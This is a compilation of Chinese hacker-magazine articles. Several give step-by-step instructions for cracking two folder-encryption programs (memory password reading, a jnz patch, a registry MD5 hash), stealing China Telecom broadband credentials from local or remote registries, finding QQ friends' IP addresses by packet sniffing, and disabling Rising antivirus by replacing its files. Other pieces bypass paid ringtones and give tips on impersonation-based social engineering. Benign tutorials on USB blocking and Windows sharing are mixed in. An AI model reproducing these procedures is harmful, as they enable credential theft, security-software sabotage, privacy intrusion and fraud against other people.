我们来到第一处，没有发现对应的明文密码，再按一次 F3 键搜索下一处，真实密码现形了，如图3。到这里我们就实现了破解文件夹的解密功能，并且得到了正确的密码。这种漏洞在当今加密领域几乎绝迹了，真没想到如此知名的软件竟会用了这种弱智的判断。


图3

这里又引发了一个问题，文件夹解密后，我们关闭程序自带的一个 FORM 窗体，文件夹则会再次自动加密，经过测试，在任务管理器关掉 emf.exe 这个监视进程后，当前加密文件夹则会完全解密。不过计算机的主人到底设置了多少个加密目录？我们只有通过主程序才能获知，而这些正是我们所关心的。虽然得到了加密文件夹的密码，但是主程序也有一个超级管理密码，如果两个密码不同呢？带着这个问题我使用 OD 跟踪判断了一下，原来超级管理密码存放在 HKEY_CURRENT_USER\Software\WinCPH\Configure 键的 masterpassword 下，键值是超级密码的 MD5 加密的32位 Hash 值，如图4。记录下来后到 MD5 在线查询网站进行查询或者使用暴力破解吧，不过大多数人都习惯设置相同的密码。至此金锁加密特警的文件夹加密功能已被我们完全攻破。


图4

#### 二、“宏杰文件夹加密”篇

“宏杰文件夹加密”是一款免费软件，界面比金锁加密特警更为美观，程序的上手性很强。使用该软件加密后，文件夹本身的图标不会改变以便于用户识别，同时支持“临时解密”、“完全解密”和管理密码认证，如图5。


图5

同样使用 WinHex 查内存明文的方法对这个程序试了下，不过行不通。那么就直接对主程序进行分析吧，使用 PEiD 检测程序为未知壳，看来程序进行了保护措施。我们使用 OD 载入该程序，在汇编区窗口右键选择“Ultra String Reference”→“Find ASCII”来查找字符串，按 Ctrl+F 查找“输入的密码不正确”，可以找到两处错误提示信息，如图6。第一处是主程序内部判断文件夹解密的字符串，而第二处才是我们打开文件夹后的错误提示地址。我们双击这里来到代码行，部分代码如下：


```
0040F819   .  E8 43D40400   call    0045CC61
0040F81E   .  85C0          test    eax, eax
0040F820   .  75 1D         jnz     short 0040F83F
0040F822   .  6A 30         push    30
0040F824   .  68 40724B00   push    004B7240                  ;  ASCII "输入的密码不正确，本汉化版保护失效"
```

载入后我们按 Ctrl+G 跳到 0040F819 这个地址，按 F2 下断，此处地址变红代表断点成功，我们按 F9 运行一下程序，窗体就可以输入了，输入错误的密码 878787，注意这里要点一下“临时解密”！

程序被断下来了，我们在堆栈区已经看到密码了，如图8。


图8

看来破解同样很简单，对于程序的管理认证密码，这里我就不再赘述了，大家可以参考破解文件夹加密的步骤进行操作。

宏杰文件夹加密虽然没有在内存处显示明文密码，但是破解起来也是很容易的。其实我们可以根据错误提示在字符串里对应查找，来到该地址后，只需把代码上方的 je 改为 jnz，就能实现完美爆破。随文附带一个我制作好的完全破解程序，此程序可以不受限制地去除管理员密码和取消文件夹加密，可在忘记密码的前提下使用。

#### 三、IceSword（冰刃）通杀篇

有些朋友可能会纳闷，难道非要破解吗？答案是否定的。这里我不得不说一下软件加密文件夹的工作机制和原理。文件夹本身不能加密，工具只是把目标文件夹转移到一个相对安全和隐蔽的地方（这里所谓安全的地方是指在正常模式下无法访问到的地方），然后自身伪装成原来的目录，解密后将原文件调回到原来的目录，就是这么简单，颇有狸猫换太子的味道。那么它藏到哪里了？宏杰文件夹加密提醒我们：“recycler88文件夹非常重要”，可真是此地无银三百两呀。这里我利用上文介绍的两款工具分别对两个文件夹进行加密，打开 IceSword 进入文件管理功能，已经可以非常清楚地看到宏杰和金锁两位兄弟伪装的目录扩展名分别为 hjm 和 emf，这种扩展只有它们自身才能调用。宏杰文件夹加密的目录隐藏在对应磁盘的 recycler88 目录下，而金锁文件夹加密特警则为 recycled 目录，我们只需依次展开就能看到了，如图9。


当我们需要查看时，只需要在文件夹点右键复制出来就行了（这里不支持文件夹复制），当然我们也可以利用 Wsyscheck 的文件管理功能就能成功复制出文件夹了，对于其它加密工具我们可以采取相同办法。对于加密文件夹的保密性感到遗憾的同时，我又不得不对其安全性担忧，虽然文件夹不能删除，但是一旦被转移到其它目录，就无法达到解密的效果了。如同你建立一个1...\的目录，虽然无法删除但是可以移动。这样一来，无意的操作甚至就有可能变成恶意的破坏，就有可能导致不可预知的结果。经过测试，一个提示密码错误，一个提示文件已经不存在。显而易见，原本的安全工具却变得如此不安全，所以真正的安全和保密还是依靠意识和知识。

（文章中涉及到的金锁文件夹加密特警、宏杰文件夹加密、IceSword、OD，已经收录在光盘中）

### 利用星空极速来盗取宽带密码

10℃留言

以前看过很多关于刷QQ业务的教程，先是使用灰鸽子开代理，然后使用得到的宽带帐号和密码进行消费，但是目前使用星空极速（星空极速是中国电信为反路由共享上网所推出的一款拨号软件，主要是利用加密帐号和密码进行拨号使传统的拨号失效，从而达到反路由共享上网的目的。）的用户不能使用系统自带的拨号软件进行上网了，所以传统的获取帐号密码的软件也就失效了，不过没关系，下面看我如何来突破它吧！

湖北电信所使用的星空极速为3.0版本，虽然个别地区也有使用3.2版本的，但是突破的方法都一样的。我想大多数用户都会和我一样为了每次上网的方便，都会把拨号上网的“保存密码”给勾选上吧（图1）。

切换到拨号旁边的“互联星空”，发现密码也同样被保存了，我们来查找密码被保存的地方吧，我原以为是保存在安装目录下的，通过文件监视却没有发现任何有利用价值的信息，最后只好转向了注册表，原来帐户信息是保存在 HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong\Gnet_pppoe2\Account 项中的。


打开后发现 Account 项下的 1210471385 和 1210471386 两个键值的二进制值内容一样，估计这就是拨号和互联星空中的帐号和密码了（图2）。显示出的为加密后的字符，这也是意料之中的事情，要是注册表中明文显示帐号和密码，那电信就真的不用再混了。我们要如何解密呢？

还是使用星空极速，首先将 Account 项导出来，接着把星空极速卸载掉，然后再安装星空极速2.1版，安装完成后将 Account 项导入后再运行，这时2.1版的界面上就会显示出两个帐户（图3）。我们随便选择一个，点鼠标右键→“编辑帐号”，然后使用输入框密码查看器就可以查看到明文密码了（图4）。


为什么会出现这样的漏洞呢？估计是电信考虑到有些用户升级不便，因此就没有改变加密算法，这样就导致了我们可以利用带有漏洞的低版本来进行解密。我们只需要获取远程主机的注册表信息就可以成功得到宽带的帐号和密码了，详细操作请大家参照演示教程。

（本文所涉及到的输入框密码查看器，星空极速2.1版以及演示教程已经收录到光盘中）

### 锁住你的 Internet

无敌小龙


#### 一、程序的安装

不论是自己的电脑还是公司的电脑，有时可能需要禁止特定的程序来访问因特网，那么如何才能做到这点呢？今天我就给大家推荐一款名叫 Internet Lock 的软件，它可以锁住你的因特网，只让特定的程序访问网络，并且可以设置密码，只有填写了正确的密码后才能访问网络，它是一个 Internet 和 Intranet 连接的访问控制软件，能拒绝任何程序以任何的 TCP/IP 端口去访问 Internet/Intranet。

我们双击运行安装程序，在安装过程中会要求填写密码，这里输入的密码是管理员密码，也就是下次登录 Internet Lock 时的密码，如图1。在成功设置管理员密码后，当我们登录 Internet Lock 时，就需要输入刚才设置的管理员密码了，如图2。


#### 二、程序的使用

上面介绍了程序安装和管理员密码的设置，接下来介绍如何使用这款强大且方便的网络控制工具。在输入管理员密码成功登录 Internet Lock 后就可以进入它的主界面了，如图3。我来教大家如何使用这款工具禁止常见的网络程序。

##### （一）禁止QQ

首先在 Internet Lock 的主界面中单击“ADD”（添加）按钮，此时会弹出一个添加规则窗口。


点击“Browse”按钮，在弹出的浏览对话框中找到QQ的主程序 QQ.EXE，选择“Single Port”，在其后的“port”框中填入“8000”（腾讯服务器的端口），如图4，然后点击“Change”按钮设置一个密码，这样当需要正常访问网络时就需要输入正确的密码才行。

经过这样设置后，QQ.EXE 一旦连接到腾讯服务器，就会弹出如图5所示的窗口，如果没有填写正确的密码它就会在一分钟后自动和服务器断开连接。此时我们在QQ群中发送图片就会发现，一旦发送图片就会提示“连接群文件传输服务器失败  您刚才发送的消息：‘[图片]’没有发送成功”的提示，如图6。


不过这里要注意一下，QQ是无法使用网络监控软件完全限制登录和收发消息的，原因有以下两点：1、如果禁止了QQ的UDP连接，QQ就会自动尝试进行TCP连接，因为我们的浏览器也要使用TCP协议，所以没有办法完全禁止；2、如果禁止了QQ客户端本地监听的4000端口，QQ就会自动尝试监听本地的4001、4002、4003……端口，如果我们禁止了QQ服务器的8000端口，QQ客户端甚至可以直接连接服务器的80端口来进行通信。所以使用限制网络的方法对QQ只能是百密一疏！但是我们可以通过“port range”（端口范围），在端口上面的输入框中输入1，在下面的端口输入框中输入60000，如图7，这样就可以禁止QQ所有的连接尝试了，一旦连接马上就会提示要求输入密码，只有输入了正确的密码才能继续连接网络，从而通过干扰QQ的正常使用达到了禁止上网的目的。


##### （二）禁止IE

禁止IE连接网络，同样是点击主界面中的“ADD”按钮，在弹出的对话框中点击“Browse”按钮找到IE的文件路径，一般是“C:\Program Files\Internet Explorer\IEXPLORE.exe”，然后按照上面的方法设置一个访问网络的密码。接着在IE浏览器中输入一个网址，回车后就会弹出如图8、图9所示的提示，此时已经无法正常地访问网络了，最后来到 Internet Lock 的“LOG”页面，可以看到 Internet Lock 所拦截的所有程序，如图10。


#### 三、密码卸载

可能有读者朋友要问了，如果对方通过卸载程序卸载掉该程序的话，那不就可以正常访问网络了吗？如图11。其实在尝试卸载 Internet Lock 时是需要密码才能完成卸载的，否则就会卸载出错，如图12！现在读者朋友们就可以放心地通过此软件来限制程序访问网络，合理地使用计算机资源了。

（文章中所涉及到的 Internet Lock 请到 X 的论坛来下载）


### 看我图片来查你 IP 地址

无敌小龙（张博）

#### 一、查询方法

首先声明，我不是使用什么QQ的插件来查对方的 IP 地址，在学习完本文后，我可以保证只要你QQ敢上线，我就能查到你的 IP 地址！首先随便找一个QQ好友，最好是资料中填写了自己所在的城市，如图1。之所以选择这样的好友，是为了验证接下来查询出来的数据。既然知道了对方的地址还查什么啊！请大家不要抱怨，因为学完此招后我可以保证在对方没有填写省市资料的情况下大家也可以得到对方的 IP 地址。

打开著名的嗅探工具 WPE，点击“目标程序”按钮，在弹出的“选择目标程序”窗口中选择 QQ.EXE 进程，如图2。


然后点击开始按钮（三角形的按钮），如图3。打开QQ好友的聊天窗口，向他或者她发送一幅图片，如图4。在发送过程中我们可以抽出点时间查看一下自己的外网 IP 地址。在 CMD 命令提示符下输入 ipconfig，可以看到我的外网 IP 地址为 58.49.124.188，如图5。现在回到 WPE 中，点击停止抓包按钮（方形的按钮），可以看到 WPE 列出了所有的数据包，如图6。


好了，接下来我就教大家如何通过这些数据包来找到 QQ 好友的 IP 地址，这里有必要先给大家介绍一下抓包查 IP 地址三大定律。


##### 1、抓包规律

一般要抓 60-70 个包，因为通常刚开始截取的几十个数据包是发向腾讯的深圳服务器的，这样的数据包对我们查询 IP 地址没有任何作用。

##### 2、查找规律

自己的 IP 地址一定要在 source 列，对于 source 列不是自己 IP 地址的数据包忽略不看。其次发送的数据包一般是一个非常小的包（此处是 12 字节，如上图 6），然后跟一个大的数据包（此处是 10020 字节），而且小包通常是“……D”这样的格式，如上图 6。

##### 3、定位规律

显示 QQ 好友 IP 地址的数据包位置，一般是在第 20 个包 -- 第 50 个包之间。

经过我的研究发现，只要有连续两个数据包的文件大小是 12 字节+10020 字节的，就基本可以确定这是发向 QQ 好友的数据包了，从 destination 列就可以直接找到对方的 IP 地址。这里我试验了很多 QQ 好友，发现结果的确如此，如图 7。


读者朋友们只要熟练的掌握此方法，就能快速的查询出所有 QQ 好友的 IP 地址了。按照我给出的规律，可以看到符合规律的只有第 49 和第 50 这两个数据包，这两个数据包的目标地址为（destination）: 121.56.45.100。具体大家请看上图 6。我们把这个 IP 地址拿到 www.123cha.com 上查询一下，成功的查询出了对方的 IP 地址，如图 8。


#### 二、防御方法

使用上述方法可以非常轻易的查出对方的 IP 地址，那么又该如何防御呢？我给出两种防御的方法，一种就是不要随便让 QQ 处于上线状态，只要让自己隐身，对方就无法发送图片来查询我们的 IP 地址，也就保障了我们的上网安全，如图 9。其次是可以通过代理服务器来登录我们的 QQ，如图 10。这样就算对方查询出我们的 IP 地址也只是代理服务器的 IP 地址。

（本文所涉及到的 WPE 请到 X 的论坛下载）


## 黑客术语补习

### 什么是注入点

就是可以实现注入的地方，通常是一个可以访问数据库的链接。根据注入点数据库的运行帐号的权限不同，你所得到的权限也不同。比如 MSSQL 的 SA 帐号，它所对应的注入点通常就是系统权限，很容易控制服务器；但如果是 DB_OWNER 权限就不能直接执行系统命令，但可以通过备份数据库的方法来得到 WebShell 后再另行提升权限。

### 一分钟KO瑞星——论杀毒软件的自我保护

本想在学校机房里学习使用黑客工具，可无奈机房里安装了瑞星（网络版）。大家都知道，黑客工具往往都被报为病毒的，所以一解压或是下载黑客工具就会被杀掉，因为当一个文件解压缩或是下载完成后，瑞星就会在后台默默的扫描该文件，可是退出实时监控又需要密码才行。本人小菜一名，使用 WinHex 琢磨了半天，啥也没破解出来，使用冰刃结束掉瑞星的进程，可十几秒后，电脑就自动关机了，但是功夫不负有心人，经过我不懈的努力，终于琢磨出了一个近乎完美的办法来干掉瑞星。

首先在 Windows 目录下找到 explorer.exe，复制两次，分别重命名为 RavMonD.exe 和 RavMon.exe。
然后运行冰刃，打开文件选项，在左边的目录树里打开 C:\Program Files\Rising\Rav，找到 RavMonD.exe 和 RavMon.exe，如图 1。点击右键，选择强制删除，为什么要强制删除呢？这是因为这个文件正在运行当中，普通删除是删不掉的，当然大家也可以设法结束掉它的进程，再使用普通删除的方式来删除，可见瑞星根本就没有对其文件进行保护。


我们把刚才重命名后的 RavMonD.exe 复制进去，再按照相同的方法把 RavMon.exe 使用刚才重命名后的 RavMon.exe 替换掉。注意：操作速度一定要快，否则几秒钟后瑞星检测不到这两个文件，就会重启系统（个人版的不会重启系统）。几秒钟后我们可以看到瑞星重启了这两个文件，而且这两个进程的图标也变了，如图 2。

下面我们看一下瑞星被破坏到了什么程度：解压一个黑客工具（之前是被报为病毒的），马上就会弹出那个撑着 PP 的小狮子在找东西，似乎瑞星正在后台进行杀毒，然而什么都没有查出来。那么是不是瑞星的杀毒能力被彻底干掉呢？我使用鼠标右键点击刚才解压的软件，然后选择瑞星杀毒，可以看到这回查出了病毒，可见瑞星的杀毒能力没有消失，只是刚才解压缩的时候没有调出主杀毒程序进行后台杀毒罢了，但是却不妨碍调出那个可爱的小狮子。

接下来我们再测试一下瑞星的主动防御能力，手动修改注册表敏感的 Run 项和 IE 首页，瑞星并没有提示阻止，可见其主动防御能力彻底崩溃了。让我们感到兴奋的是，任务栏的右边仍然有那把象征着主动防御的绿雨伞，如图 3。

我的设想是这样的：假如今后会出现这样一种病毒，瑞星用户感染后病毒会使用 explorer.exe 依次替换 RavMonD.exe 和 RavMon.exe，这样瑞星便失去了大部分的保护功能，而任务栏右方的小伞却依然还在，这就欺骗了用户的眼睛，误以为瑞星仍然忠诚的在保护着电脑，从而放松了警惕性，而主动防御却实际上早已名存实亡，病毒便可以为所欲为了。因为瑞星的后台杀毒能力也消失了，病毒还可以下载其它病毒，直到用户发现瑞星已经坏掉了，而病毒早已把瑞星的卸载程序 SetupRav.exe 删掉了，用户无法卸载，坏的卸不掉，新的就不能安装。

杀毒软件不但要保护自己的进程，更重要的是保护自己的文件，俗话说得好：留得青山在，不怕没柴烧！同样，留得文件在，不怕没进程。网上还有 KO 瑞星 2005 实时监控的视频，方法更简单，只是禁用服务中的 RavMonD 就好了（好在瑞星在以后的版本中对服务进行了保护）。可见杀毒软件只是保护进程是远远不够的！

该方法对于最新的瑞星 2008 个人版依然有效，结果完全一样。由于客观条件的限制，并没有在其它杀毒软件上进行类似的测试，有兴趣小菜就自己试一下吧。


图 3


### 免费使用，还有金山毒霸

飞仙

金山毒霸是国内一款使用非常广泛的杀毒软件，深受广大用户的喜爱。对于我们这些口袋并不充裕的小菜来说，金山毒霸在国内的免费使用时间为 888 小时也就是 37 天，相对来说短了点。去年金山毒霸正式登陆日本市场，带去了免费的金山毒霸日文版，我们今天的对象就是它。

首先登录 http://download.kingsoft.jp/download/download_thanks_is.html ，这是金山的日本网站，点击如图 1 所示的按钮进行下载，或者直接把 http://download.kingsoft.jp/kisfree/KIS2007/37/kisu.exe 这个地址复制到迅雷里去下载。

运行下载回来的安装包，会弹出如图 2 所示的对话框，提示说需要安装在日文版的操作系统上，不然会发生错误，这个我们不用管它直接点“是”就行了。


图 1


图 2

一路默认安装下去就行了，注意中间会有一个安装 Yahoo 插件的提示，至于其它的和国内的安装包没什么区别。

安装完毕后打开金山毒霸的主程序，会弹出如图 3 所示的登录框，我们随便填写，然后点击“OK”，接着就可以看到金山毒霸日文版的界面了，如图 4。


图 4

看着日文是不是很不爽？那我们就来汉化一下吧！退出金山毒霸日文版的监控和金山网镖，把提供给大家的简体中文语言包复制到 C:\Program Files\Kingsoft\Kingsoft Internet Security U 目录下，把原来的 lang 文件夹替换掉。替换完成后我们重新打开金山毒霸的主程序，是不是已经变成中文版了，部分没有修改的不会影响正常的使用，如图 5。


图 5

我们升级试试，点击下方的“立即升级”，升级程序为日文，但不影响使用。一直点击下去就可以自动升级了，如图 6。升级完毕后我们再来看看，引擎和病毒库都和国内是一样的，如图 7。毒霸的设置界面、扫描界面以及金山网镖的界面都是简体中文，如图 8，图 9，图 10。


至于清理专家，因为国内的清理专家是免费的，所以就不汉化了。现在，我们就可以免费使用金山毒霸了。大家还要注意一下，日文版的金山毒霸免费版是有广告弹出的，但并不影响使用。

（本文所涉及到的简体中文语言包已收录到光盘中）

—— 阿贵 —— (Hack)

### 如何禁止别人使用U盘

随着网络使用的普及，很多用户都有自己的隐私资料或是专用的黑客工具，为了安全起见，对于在公司、学校、网吧等地方使用的电脑就经常需要禁用 U 盘和移动硬盘等设备，以防止员工带走机密资料，防止学生带游戏去机房玩，防止网吧被黑等等。

很多朋友会使用 USB 管理专家这类专门限制使用 U 盘的软件，不过 USB 管理专家是收费的，我这次就给大家提供几种不使用专业软件就能禁用 U 盘的小技巧。

#### 方法一：BIOS设置法（快刀斩乱麻法）

开机后进入 BIOS 的设置界面，选择“Integrated Peripherals”，展开后将“USB 1.1 Controller”和“USB 2.0 Controller”选项的属性设置为“Disabled”，就可以禁用 USB 接口了。最后再给 BIOS 设置一个密码，这样别人就无法通过修改注册表来“锁”上述设备了。不过，这个方法是完全禁止了 USB 接口的使用，也就是说各种 USB 接口的设备均无法使用了，当然也包括 U 盘和移动硬盘。由于此法过于霸道，请慎用。

#### 方法二：禁止闪盘或移动硬盘的启动（适用于Windows2000/XP/2003）

在“运行”栏输入 regedit 打开注册表编辑器，依次展开到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR”分支，在其右侧找到名为“Start”项，双击它，在弹出的编辑对话框中将其数值修改为十六进制数值“4”（图 1），然后点“确定”并关闭注册表编辑器，重新启动计算机，使设置生效。重启后当有人将 USB 存储设备连接到计算机时，虽然 USB 设备上的指示灯仍在正常闪烁，但在资源管理器中就是无法找到其盘符，因此也就无法使用 USB 设备了。


#### 方法三：隐藏盘符和禁止查看（Windows系统）

打开注册表编辑器，依次展开到“HKEY_CURRENT_USER\software\Microsoft\Windows\CurrentVersion\Policies\Explorer”分支，新建二进制值，命名为“NoDrives”（图 2），其缺省值均是“00 00 00 00”，表示不隐藏任何驱动器。键值由四个字节组成，每个字节的每一位（bit）对应从 A：到 Z：的一个盘，当相应的位为 1 时，在“我的电脑”中相应的驱动器就被隐藏了。第一个字节代表从 A 到 H 的 8 个盘，即 01 为 A，02 为 B，04 为 C……依次类推，第二个字节代表 I 到 P，第三个字节代表 Q 到 X，第四个字节代表 Y 和 Z。比如要关闭 C 盘，将键值改为“04 00 00 00”，要关闭 D 盘，则改为“08 00 00 00”，若要关闭 C 盘和 D 盘，则改为“0C 00 00 00”（C 是十六进制，转换成十进制就是 12）。知道了原理后，以我自己的电脑为例来说明如何操作：我的电脑有一个软驱、一块硬盘（5 个分区）和一个光驱。盘符分布是这样的：A:（3.5 软盘）、C:、D:、E:、F:、G:、H:（光盘），所以我的“NoDrives”值为“02 ff ff ff”，隐藏了 B、I 到 Z 盘。重启计算机后，再插入 U 盘，在我的电脑中是不出来的，但在地址栏里输入 I:（我的电脑最后一个盘符是 H）还是可以访问移动硬盘的。大家可以看出，“NoDrives”只是个障眼法，所以我们还要多做一步，就是再新建一个二进制“NoViewOnDrive”，将值改为“02 ff ff ff”，也就是说其值与“NoDrives”相同。这样一来，既看不到 U 盘盘符也访问不到 U 盘了。


#### 方法四：禁止安装USB驱动程序

打开 Windows 资源管理器，进入到“系统盘:\WINDOWS\inf”目录，找到名为“Usbstor.pnf”的文件，右键点击它，在弹出的菜单中选择“属性”，然后切换到“安全”项，在“组或用户名称”中选择要禁止的用户组，接着在下面该用户组的权限框中，选择“完全控制”后面的“拒绝”复选框，最后点击“确定”，如图 3。再使用以上方法，找到“usbstor.inf”文件并在“安全”项中设置为拒绝该组的用户访问，其操作过程同上。完成了以上设置后，该组中的用户就无法安装 USB 设备驱动程序了，这样也就达到了禁用的目的。


通过上述的四种小方法，就可以完全禁用 USB 设备了。

### 简单社会工程学之亲身体验

MISHELL[黑盟网络]

可以说，目前不被发现程序漏洞的概率比不被社会工程学欺骗的概率要高的多，也就是说即使一个网站的系统绝对安全，那么它也有可能会被社会工程学所攻破。相信《欺骗的艺术》一书中的那些经典例子让叉子们拍手叫绝，其实这样的事情也可能会发生在你身上，也许现在也许是将来，这就要求我们能够有一些防备。下面我就给大家讲一下我所亲身经历的两件有关社会工程学的简单例子和心得。

#### 一、简单社工之我被骗

今年暑假闲的没事就到本地公安局的出入境管理科当了个打字员，我的工作就是打材料，接电话，有时也帮助录入资料。有天上午来了一个人，他的情况需要开一个北京某地派出所的证明，可现在正值奥运期间，回北京开证明然后再回来办理就会耽误他的事，他想先办理护照，等回到北京后再将证明快递过来。这时打进来一个电话，是上一级领导 A 处长询问工作，电话挂掉后那人也没有继续要求办理，然后就离开了。

当天下午刚上班没多久就又接到了 A 处长打来的电话，说是上午那个需要开证明的人先给他办理了，等他回北京后再把证明快递过来。由于我对 A 处长的声音并不是很熟悉，而且也由于那种工作中对领导的服从，没对他的身份进行确认就答应了此事。当办理护照那人下午再来时就受理了他的护照，而他下午说话很少。第二天主管的阿妹给 A 处长说那人的护照资料已经录完了，可 A 处长却说他根本没有打过那个电话。还好那人的表格资料没有送出，要不就真的造成了一个骗领护照的案子了。

从上面的例子可以看出，下属对上级的服从和怀疑是一个致命的弱点，在这一点上咱们叉子可一定要注意了，就从利用上来讲，要对机构整体进行简单的了解，包括对方的姓名职务，条件允许的话还可以亲自去探访下工作规律，以防止欺骗过早的被看穿，欺骗最好不要使用在需要长时间有效的方面，否则被拆穿的概率要大很多。而从防范上来讲，不要对任何自称上司的人不加怀疑，要对上司的真实性使用委婉的方式进行确认。

#### 二、简单社工之我骗人

这件事已经发生有段时间了，当时有一个非常好的兄弟（就是有钱一起花，有事一起扛的那种），天天在网吧挂 QQ，他每天早上一挂上，可到了中午再去网吧的时候 QQ 就被关掉了，天数也没怎么增长，我没在意，以为有人免费玩他那台电脑就把他 QQ 给关了。后来十一长假他出去旅游了，我懒得出去就躲在了家里，黄金周的第五天晚上他在 QQ 上给我发消息说他碰到点意外的事，手机和钱都被偷了，让我给一个不认识的手机里充 100 元的话费。我记得他走的时候跟我说过他身上只有买车票的钱，其他的都在卡里呢，就随口问了一句：你身上多少钱被偷了？结果他说是 1000。我马上就想到了他不是我那个兄弟，肯定是网吧的电脑被他种了 QQ 盗号木马，他把我那个兄弟的 QQ 给盗了。于是我回复说：今天太晚了，交费的门都关门了，我也没有充值卡，明天上午再去给你充。我想他应该不知道我那个兄弟出去旅游了，而在那个网吧种马的也很有可能就是本地人（我在网吧经常听一些人讨论种木马的事情），那我何不将计就计把他给引出来，也好痛扁一顿，替我那兄弟的 QQ 报仇。

第二天上午我先给几个好哥们打电话让他们在一个移动交费处蹲点，然后我就给那人发消息说我已经给那个移动号码充了 100 元钱，他当然说没有充上，我说我这边还有事要不你去某某移动交费处询问一下是怎么回事吧，他说好，经过 40 多分钟的等待，当我正叹气那小子可能不是本地人时，蹲点的兄弟打来了电话，说给那小子抓了个正着，现在正被他们堵在胡同里练飞脚呢，就这样 QQ 密码直接被问了出来，那小子也被练得眼泪汪汪的让我出了气。

从这个例子中可以看出，如果要骗人的话一定要摸清你伪装的那个人的身份、动态和习惯，如果稍有不慎就会满盘皆输。在防范方面要注意周围人的习惯和细节，这样一精确到细节很多骗子都会露出马脚，然后再对骗子进行分析，没准就可以对骗子进行有力的打击了。

相信也有叉子曾经遇到过跟我类似的事情，其实社会工程学不光可以用在入侵上，只要是想达到目的都可以视情况来利用。有些事情不过是换了情景，使用相同的思路还是行得通，只要你善于观察，有耐心，善于思考，社会工程学将会是入侵中最锋利的一把剑。

### 论坛我就要免费的——免费打造属于自己的个人论坛

在以前的黑客 X 档案上曾经介绍过 5D6D 的免费论坛，不过我个人认为那个并不怎么好，而且还有许多的不便，经过小菜我的一番苦寻，总算在网上找到了一个非常不错的免费论坛。

我们打开 http://www.lunqun.com ，页面如图 1 所示，在“免费论坛申请”中填写好相关的信息，这就和我们到各种网站注册差不多。注册完成后我们就会得到一个诸如 http://XXX.lunqun.com 形式的免费论坛了，只要在网址后面加上 /admin.php 就可以进入后台管理入口，如图 2。另外，管理员登录论坛后也会在论坛右上角看到系统设置项，从那儿也可以登录后台的。


论坛申请好了，接下来就是添加论坛版块了，我们只要在后台点击“版块管理”--“添加新版块”--“所属分类”，然后提交即可，提醒一下大家，分类不加板块的话，在前台是不会显示的。我们还可以把论坛版块名称加上颜色，只要在版块管理中“编辑”相应的版块，然后在版块名称里输入“`<font color="颜色代码">版块名</font>`”就可以了。


现在论坛也开通了域名绑定功能，不过这必须通过与客服QQ交谈，让他给你添加才可以，更重要的是你的域名要备案成功后才成，没备案的是不能绑定域名的。可能大家会说，我要的就是自己的域名呀。我可以告诉大家，在域名里设置转向就可以解决问题了，如果没有域名的话也可以去买一个，反正现在的cn域名已经到了白菜价的一元一年。我们还可以在模板管理中对CSS代码进行替换，如图3。官方网站中有许多CSS代码，不过都不怎么样，还不如使用别人的呢，我们可以直接查看自己所喜欢的论坛源文件，在源文件中以“<!-- --CSS-- >”至“<!-- --css-- >”中间的代码就是CSS源文件，将这些代码复制过来保存就行了，现在论坛的样式已经变了吧。最后我再来谈一谈广告相关的问题，首先进入插件管理中心，找一个没用的插件，改成直接显示，然后把代码放在名称里，其它不要改动，直接提交就行了。怎么样，是不是很好很强大，还不赶快去申请一个属于自己的免费论坛，最后祝大家玩得开心！


### 教小菜免费得到付费的手机彩铃

aooiry

拥有一个好听的手机铃声是每一个小菜都希望的，虽然有一些免费的网站可以提供小菜下载铃声，但也有一些网站是收费的，一旦遇到了这样的网站我们该怎么办呢？

我就以BSB的一首I Want It That Way为例，来到这个叫做多普达俱乐部的网站，可以看到在这里下载铃声是要钱的，如图1。


我们这些穷小菜可不想随便乱花钱，那要怎样才能免费下载到这个铃声呢？下面就请出本次的主角——影音神探。在浏览本页面的时候可以听到这个铃声，说明有播放器存在，并且在播放某一地址的音频文件，那我们就可以使用影音神探把这个地址给嗅探出来。

影音神探的安装非常简单，一路NEXT就行了，安装完成后可能还需要安装WinPcap软件。安装完毕后首先要设置一下网络适配器，设置很简单的。然后点击“开始嗅探”影音神探就开始工作了，这时我们只要刷新一下页面，铃声的真实下载地址就会被嗅探出来了，如图2。


看到了吗？图中的红色链接就是铃声的真实下载地址，把它放到迅雷里就可以下载了，使用这种方法我们还可以下载更多需要付费的铃声（网页上需要有播放器才行），希望各位小菜手机里的好铃声越来越多！

（本文所涉及到的影音神探、WinPcap已收录到光盘中）

### 深入浅出之 Windows 共享

BaseNet

在网上曾看到过很多关于Windows XP共享的问题，本文我就做了一些简单的整理，希望能给需要的朋友提供一点帮助！

#### 一：Windows 共享机制及共享问题解决思路

在Windows XP中存在三种共享方式和两种共享机制，三种共享方式分别为默认共享、简单文件共享和高级共享，对于网络安全来讲我们关注最多的是默认共享，在局域网的文件共享中，我们关注比较多的则是高级文件共享。默认文件共享是基于Windows的server服务，很多时候为了计算机的安全我们一般都会关闭默认共享，至于关闭的方法在网上及早期的杂志中都有过介绍，这里不再赘述！

从Windows 2000开始微软采用了两种共享机制：

- 1、传统的NetBT（NetBIOS over TCP/IP）共享机制，使用UDP协议的137、138端口和TCP协议的139端口，通过NetBIOS协议进行地址解析！
- 2、TCP/IP上的SMB直接承载（Direct Hosting of SMB over TCP/IP）共享机制，使用TCP协议的445端口，通过DNS解析地址！

在默认状态下，Windows会同时尝试这两种机制，客户机和文件服务器建立新连接的时候，两套机制进行公平竞争，谁先做出响应就先使用谁。

知道了机制我们并不能完全解决所有共享中出现的问题，在遇到共享问题的时候我们必须有一个解决问题的思路：首先需要排除硬件故障，其次要考虑网络协议、服务、端口的问题，最后考虑的是帐户验证、本地策略设置及权限分配的问题！

#### 二：Windows 高级共享及其验证机制

要使用Windows高级共享首先要确保如下设置：

- 1、打开“我的电脑”，选择“工具”—“文件夹选项”—“查看”，去掉“使用简单文件共享（推荐）”前面的勾！
- 2、在“开始”—“运行”栏中输入secpol.msc，打开本地安全策略，依次定位到“本地策略”—“用户权利指派”—保证“拒绝从网络访问这台计算机”没有guest帐户，如图1。


- 3、在本地安全策略中，依次定位到“安全选项”—“网络访问：本地帐户的共享和安全模式”，设置为经典，将“帐户：使用空白密码的本地帐户只允许进行控制台登陆”设置为“已启用”。

